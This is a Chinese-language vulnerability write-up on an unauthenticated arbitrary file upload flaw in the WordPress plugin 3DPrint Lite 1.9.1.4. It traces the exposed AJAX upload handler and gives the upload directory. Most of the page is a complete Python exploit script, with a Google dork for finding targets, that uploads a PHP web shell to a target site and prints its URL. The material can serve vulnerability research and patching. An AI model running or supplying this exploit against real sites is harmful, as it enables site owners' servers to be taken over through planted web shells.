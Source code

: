 # WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>3DPrint Lite Version 1.9.1.4 版本</a-checkbox></br>

## 插件名

<a-checkbox checked>3DPrint Lite</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</a-checkbox></br>

## 漏洞复现

首先看一下插件注册的接口

![image.png](../../../.vuepress/public/img/1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911.png)

```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 **wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php**

![image.png](../../../.vuepress/public/img/1638590604840-080502a2-0606-483c-b620-88ced836df9f.png)

向下看可以看到一个标准的文件上传代码

![img](../../../.vuepress/public/img/1638590633929-99afa9bf-aff5-41b2-a6be-02f10da4a2d4.png)

通过调试可以找到上传路径 **/wp-content/uploads/p3d/**

![img](../../../.vuepress/public/img/1638590688972-3b63dca0-8357-4456-8d6e-18bc21c476ac.png)

未授权调用 p3dlite_handle_upload 上传文件

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

![img](../../../.vuepress/public/img/1638590820680-20cfb3cc-d320-4ba0-9d47-59d36996ed9d.png)
